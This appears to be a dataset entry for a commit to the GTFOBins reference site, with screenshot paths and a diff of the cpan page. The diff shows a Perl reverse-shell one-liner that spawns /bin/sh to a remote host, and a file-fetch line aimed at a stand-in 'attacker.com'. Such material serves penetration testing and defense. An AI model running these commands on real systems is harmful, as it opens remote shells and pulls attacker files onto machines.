

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/cpan.md, in a window 1280 px wide. Shown: the whole page at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 1325 px from its top, so only the background shows below that.

Commit message:
added environment variables

```diff
--- a/_gtfobins/cpan.md
+++ b/_gtfobins/cpan.md
@@ -9,8 +9,10 @@ functions:
   reverse-shell:
     - description: Run ``nc -lvp RPORT`` on the attacker box to receive the shell.
       code: |
+        export RHOST=localhost
+        export RPORT=9000
         cpan
-        ! use Socket; my $i="RHOST"; my $p=RPORT; socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp")); if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S"); open(STDOUT,">&S"); open(STDERR,">&S"); exec("/bin/sh -i");};
+        ! use Socket; my $i="$ENV{RHOST}"; my $p=$ENV{RPORT}; socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp")); if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S"); open(STDOUT,">&S"); open(STDERR,">&S"); exec("/bin/sh -i");};
 
   file-upload:
     - description: Serve files in the local folder running an HTTP server on port 8080. Install dependency via `cpan HTTP::Server::Simple`.
@@ -21,8 +23,10 @@ functions:
   file-download:
     - description: Fetch a remote file via HTTP GET request and store it in PWD.
       code: |
+        export RHOST=attacker.com
+        export DFILE=evil.txt
         cpan
-        ! use File::Fetch; my $file = (File::Fetch->new(uri => 'http://RHOST/evil.txt'))->fetch();
+        ! use File::Fetch; my $file = (File::Fetch->new(uri => "http://$ENV{RHOST}/$ENV{DFILE}"))->fetch();
 
   sudo:
     - code: |
```
